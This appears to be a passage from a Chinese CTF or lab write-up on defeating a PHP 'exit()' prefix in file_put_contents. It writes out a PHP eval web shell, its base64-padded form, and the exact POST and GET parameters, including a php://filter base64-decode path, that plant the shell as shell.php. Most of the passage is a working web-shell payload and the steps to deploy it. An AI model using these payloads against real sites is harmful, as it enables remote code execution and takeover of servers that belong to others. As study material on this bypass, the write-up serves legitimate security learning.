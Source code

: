 ![image-20240126101834090](image/image-20240126101834090.png)

```
file_put_content函数在请求访问时没有该文件会新建一个文件，文件的内容被拼接上了"<?php exit();"，这就导致如果我们按常规思路写shell进去的话，
<?php 
	exit();
<?php
	eval($_POST[123]);
?>
执行时就会直接先执行exit()退出了，我们后面的shell代码是无法执行的。
此时。我们将shell写成
aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
解读一下：PD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=是经过base64加密的<?php eval($_POST[123]);?>
前面的a是为了凑出base64编码，如果不加1位，会发现编码解不出来
那我们的shell最终就变成
<?php exit();aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
经过base64解码可得
&^F+Z<?php eval($_POST[123]);?>
就跳过了exit()
```

所以post传参的参数为

```
content=aPD9waHAgZXZhbCgkX1BPU1RbMTIzXSk7Pz4=
```

我们要用base64解码的形式去读取shell，并将传入的shell进行base64解码并进行保存，所以get传参为

```
?filename=php://filter/convert.base64-decode/resource=shell.php
```

接下来我们访问shell.php
